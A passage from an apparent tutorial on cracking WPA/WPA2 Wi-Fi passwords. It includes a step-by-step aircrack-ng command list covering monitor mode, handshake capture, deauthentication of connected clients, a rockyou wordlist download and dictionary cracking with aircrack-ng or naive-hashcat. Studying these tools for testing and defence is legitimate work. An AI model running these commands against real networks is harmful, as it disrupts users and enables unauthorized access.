 # not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
Once you've sent the deauth packets, head back over to your airodump-ng process, and with any luck you should now see something like this at the top right: [ WPA handshake: 9C:5C:8E:C9:AB:C0. Now that you've captured a handshake you should be ready to crack the network password.

## List of Commands
Below is a list of all of the commands needed to crack a WPA/WPA2 network, in order, with minimal explanation.

# put your network device into monitor mode
airmon-ng start wlan0

# listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0

# start listening for the handshake
airodump-ng -c 6 --bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

# optionally deauth a connected client to force a handshake
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

########## crack password with aircrack-ng... ##########

# download 134MB rockyou.txt dictionary file if needed
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack w/ aircrack-ng
![image](https://user-images.githubusercontent.com/114422566/194814080-91a94114-6b19-43ba-bf08-34f9d3e062b1.png)

aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## or crack password with naive-hashcat ##########

# convert cap to hccapx
cap2hccapx.bin capture/-01.cap capture/-01.hccapx

# crack with naive-hashcat
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
## Appendix
The response to this tutorial was so great that I've added suggestions and additional material from community members as an appendix. Check it out to learn how to:
